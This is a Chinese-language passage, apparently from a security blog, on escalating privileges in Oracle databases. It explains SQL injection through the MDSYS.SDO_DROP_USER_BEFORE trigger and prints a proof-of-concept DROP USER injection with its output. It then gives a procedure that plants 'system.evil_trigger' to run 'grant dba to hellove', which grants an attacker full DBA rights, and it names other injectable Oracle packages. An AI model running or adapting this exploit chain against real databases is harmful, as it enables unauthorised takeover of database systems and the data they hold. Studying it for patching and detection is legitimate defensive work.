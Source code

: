 上面两行代码是在 web 环境下使用的代码，pl/sql 中更为简单，就不必演示了

> MDSYS.SDO_DROP_USER_BEFORE

之前的 DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES 属于函数注入，SYS.LTRIC.FINDRICSET 属于过程注入，DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS 逻辑问题 现在我们要介绍一个更为好玩的 MDSYS.SDO_DROP_USER_BEFORE 触发器，MDSYS 模式下的 SDO_DROP_USER_BEFORE，TRIGGER 是以 definer rigth 来执行的，虽然 MDSYS 没有多大的权限 但是先让我们能够在 MDSYS 下执行任意命令，先看 MDSYS.SDO_DROP_USER_BEFORE 的代码

```
trigger sdo_drop_user_before  
before drop on DATABASE  
declare  
stmt varchar2(200);  
rdf_exception EXCEPTION; pragma exception_init(rdf_exception, -20000);  
BEGIN  
if dictionary_obj_type = 'USER' THEN  
BEGIN  
EXECUTE IMMEDIATE  
'begin ' ||  
'mdsys.rdf_apis_internal.' ||  
'notify_drop_user(''' ||  
dictionary_obj_name || '''); ' ||  
'end;';  
EXCEPTION  
WHEN rdf_exception THEN RAISE;  
WHEN OTHERS THEN NULL;  
END;  
end if;  
end; 
```

dictionary_obj_name 处可以注入，我们可以尝

```
SQL> set serveroutput on  
SQL> drop user "t');dbms_output.put_line('test";  
test  
drop user "t');dbms_output.put_line('test"  
*  
ERROR at line 1:  
ORA-01918: user 't');dbms_output.put_line('test' does not exist 
```

相当无语，不过还是因为字数限制，不能利用 dbms_xmlquery.getxml 来实现无需 create procedure，必须创建个过程，但是由于所在模式为 MDSYS 不是 dba，我们不能利用 MDSYS 直接获取 dba 权限，但是 MDSYS 拥有 create any trigger 的权限，所以我们可以利用 MDSYS 在 system 下 创建一个 trigger，trigger 是 authid current_user,所以我们要利用 trigger 来在 system 权限下执行命令，然后我们再触发这个 trigger,就可以 在 system 下执行代码了,talk is cheap,show me the code，直接放代码吧

```
create or replace procedure g(v varchar2) authid current_user is  
PRAGMA AUTONOMOUS_TRANSACTION;  
stmt varchar2(400) := 'create or replace trigger '  
|| 'system.evil_trigger '  
|| 'before insert on '  
|| 'system.OL$ '  
|| 'DECLARE PRAGMA AUTONOMOUS_TRANSACTION;'  
|| 'BEGIN execute immediate ''grant dba to hellove'';END evil_trigger;';  
begin  
execute immediate stmt;  
commit;  
end; 
```
